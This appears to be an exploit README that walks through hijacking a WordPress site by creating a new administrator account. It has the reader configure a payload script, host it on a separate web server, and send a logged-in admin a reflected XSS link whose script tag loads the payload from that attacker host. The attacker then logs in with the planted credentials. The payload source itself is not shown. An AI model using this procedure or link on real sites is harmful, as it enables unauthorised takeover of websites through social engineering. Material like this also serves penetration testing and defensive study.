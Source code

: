 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccWP.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 9 characters)

    `newAccEmail` - email of the user account to be created

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.13` - web server hosting payload

5. [post exploit] attacker logs into target WordPress site using specified credentials

    http://192.168.5.10/wp-login.php

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/WordPress_-_create_new_admin_-_1-1.png)
